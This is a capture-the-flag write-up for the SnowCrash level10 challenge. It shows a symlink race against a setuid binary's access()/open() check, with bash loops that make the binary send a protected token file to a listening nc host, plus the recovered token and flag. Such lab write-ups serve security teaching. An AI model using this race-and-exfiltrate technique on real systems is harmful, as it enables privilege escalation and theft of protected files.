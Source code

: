 ```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token

level10@SnowCrash:~$ cat token
cat: token: Permission denied

level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it

level10@SnowCrash:~$ strings level10
...
open
access
...
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
...
```
Output strings tell us to look as access function. There is an exploit (race condition) with `access` after `open`:
```
man access
Warning:  Using  access()  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because
       the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call  should  be
       avoided.   (In  the  example  just  described,  a  safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call
       open(2).)
```
So if we replace file by a symbolic link between `open` and `access` we can get token. To be sure let's do it in a loop:
```
level10@SnowCrash:~$ vim /tmp/lvl10.sh
level10@SnowCrash:~$ cat /tmp/lvl10.sh
#!/bin/bash

while :; do touch /tmp/tok; rm /tmp/tok; ln -s /home/user/level10/token /tmp/tok; rm /tmp/tok; done

level10@SnowCrash:~$ chmod 777 /tmp/lvl10.sh
level10@SnowCrash:~$ ls -la /tmp/lvl10.sh
-rwxrwxrwx 1 level10 level10 113 Sep 18 21:48 /tmp/lvl10.sh
```
Script to run `level10`:
```
level10@SnowCrash:~$ cat /tmp/send10.sh
#!/bin/bash

while :; do /home/user/level10/level10 /tmp/tok 192.168.31.128; done

```
Now, let's run out 2 scripts in separate windows and listen in third:
```
# one
level10@SnowCrash:~$ /tmp/lvl10.sh
# two
level10@SnowCrash:~$ ./level10 /tmp/tok 192.168.31.128
# three
level10@SnowCrash:~$ nc -lk 6969
```
On third window we get:
```
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
```
Getflag with this token:
```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
